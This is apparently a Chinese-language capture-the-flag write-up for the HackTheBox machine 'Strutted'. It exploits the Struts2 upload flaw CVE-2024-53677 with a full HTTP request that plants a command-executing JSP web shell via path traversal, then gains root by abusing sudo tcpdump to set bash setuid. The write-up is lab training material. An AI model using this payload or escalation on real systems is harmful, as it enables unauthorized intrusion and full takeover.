







## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Strutted  
❯ nmap strutted.htb -sV    

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

## CVE-2024-53677 

存在一个**Download**路由可以下载到网站源码

查看**pom.xml**发现使用的是**struts2 6.3.0.1**



- [Apache Struts2文件上传绕过致远程命令执行漏洞(CVE-2024-53677) - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/418053.html)

- [深度解析 Struts2 漏洞 CVE - 2024 - 53677：原理、利用与修复全攻略](https://www.cimer.com.cn/newsinfo/7901779.html)

随意上传一张图片，可以看到响应中有存储路径



```
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------115439595428497934603121522453
Content-Length: 1253
Origin: http://strutted.htb
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=160DD7DCBCF29E8A673300CA18537126
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------115439595428497934603121522453
Content-Disposition: form-data; name="Upload"; filename="test.jpg"
Content-Type: image/jpeg

GIF89a
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";

    try {
        if ("cmd".equals(action)) {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\\n";
                }
                reader.close();
            }
        } else {
            output = "Unknown action.";
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }
    response.setContentType("text/plain");
    out.print(output);
%>
%>

-----------------------------115439595428497934603121522453
Content-Disposition: form-data; name="upload";name="top.UploadFileName"

../../shell.jsp
-----------------------------115439595428497934603121522453--
```

注意这里的最上面的**upload**的需要首字母大写





写一个反弹**shell**，拿到**tomcat**权限



在**tomcat-users.xml**中拿到密码，可以登录到**james**用户



## Root

查看`sudo -l`

```
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

- [tcpdump | GTFOBins](https://gtfobins.github.io/gtfobins/tcpdump/#sudo)

```
james@strutted:~$ COMMAND='chmod u+s /bin/bash'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
james@strutted:~$ 
```



## Summary

`User`：通过**Apache Strust2**的文件上传漏洞，拿到**tomcat**的**shell**，查看到存在**james**用户，使用配置文件中的密码成功**ssh**登录。

`Root`：**tcpdump**提权，比较简单。
